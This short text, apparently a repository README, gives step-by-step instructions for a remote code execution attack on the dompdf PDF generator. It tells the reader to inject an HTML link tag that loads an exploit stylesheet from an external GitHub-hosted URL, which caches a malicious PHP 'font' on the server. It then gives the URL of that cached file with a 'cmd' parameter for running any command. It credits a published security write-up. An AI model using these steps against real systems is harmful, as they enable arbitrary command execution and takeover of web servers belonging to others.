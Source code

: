 inject this html tag to the pdf generator and it will access the exploit font that will then get caches and we can access it from the webserver


<link rel=stylesheet href="https://raw.githubusercontent.com/sneaky-wizard/dompdf_rce/main/exploit.css" />

to access the cached font and execute any command you want

[baseurl]/dompdf/lib/fonts/exploitfont_normal_474308190ce1ee929b1eede40de56ec7.php?cmd=[command]



based on https://positive.security/blog/dompdf-rce
